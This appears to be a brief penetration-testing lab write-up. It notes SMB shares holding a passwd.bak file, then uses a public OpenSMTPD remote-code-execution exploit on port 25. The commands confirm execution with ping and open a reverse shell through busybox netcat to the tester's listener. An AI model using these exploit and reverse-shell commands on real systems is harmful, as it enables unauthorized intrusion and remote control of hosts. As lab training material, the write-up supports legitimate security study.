







# 445

Checking SMB, there's 2 shares:

Found passwd.bak:




Now we can try an OpenSMTP exploit:


```
searchsploit -m linux/remote/47984.py
```
testing out command execution:
```
python3 47984.py 192.168.182.71 25 'ping -c 10 192.168.45.236'
```
On our machine:
```
sudo tcpdump -i any -v icmp
```

We get back icmp packets

Now trying to get a shell back:
```
python3 47984.py 192.168.182.71 25 'busybox nc 192.168.45.236 445 -e /bin/bash'
```
on our machine:
```
sudo rlwrap nc -nlvp 445
```


